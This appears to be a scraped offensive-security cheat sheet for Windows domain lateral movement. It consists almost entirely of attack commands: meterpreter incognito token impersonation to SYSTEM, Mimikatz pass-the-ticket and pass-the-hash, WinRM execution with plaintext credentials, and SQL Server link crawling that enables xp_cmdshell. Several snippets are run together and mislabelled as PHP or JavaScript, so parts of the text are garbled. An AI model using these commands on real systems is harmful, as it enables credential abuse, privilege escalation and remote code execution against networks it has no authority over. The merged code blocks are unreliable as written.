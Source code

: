 
**Impersonating Tokens with meterpreter**
-----------------------------------------

```

use incognito
list_tokens -u
impersonate_token 
NT-AUTHORITY\SystemCode language: PHP (php)
```


PsExec, SmbExec, WMIExec, RDP, PTH in general. Since windows gave support to OpenSSH we should also consider SSH.

**Mimikatz Ticket PTH**
-----------------------

```

Enable-PSRemotingmimikatz.exe '" kerberos:ptt C:\Users\Public\ticketname.kirbi"' "exit"Enter-PSSession -ComputerName ECORPCode language: JavaScript (javascript)
```


**Winrm Session**
-----------------

```

$pass = ConvertTo-SecureString 'supersecurepassword' -AsPlainText -Force$cred = New-Object System.Management.Automation.PSCredential ('ECORP.local\morph3', $pass)Invoke-Command -ComputerName DC -Credential $cred -ScriptBlock { whoami }Code language: PHP (php)
```


**PTH with Mimikatz**
---------------------

```

Invoke-Mimikatz -Command '"sekurlsa::pth /user:user /domain:domain /ntlm:hash /run:command"'Code language: JavaScript (javascript)
```


**Database Links**
------------------

```


https:
Get-SQLServerLink -Instance server -Verbose
powershell.exe -c "Import-Module C:\Users\Public\PowerUpSQL.ps1; Invoke-SQLEscalatePriv -Verbose -Instance ECORP\sql"

select srvname from master..sysservers;

Get-SQLServerLinkCrawl -Instance server -Query "exec master..xp_cmdshell 'whoami'"

select * from openquery("ECORP\FOO", 'select TABLE_NAME from FOO.INFORMATION_SCHEMA.TABLES') 



select * from openquery("server",'select * from master..sysservers') EXECUTE AS USER = 'internal_user' ('sp_configure "xp_cmdshell",1;reconfigure;') AT "server"Code language: PHP (php)
```
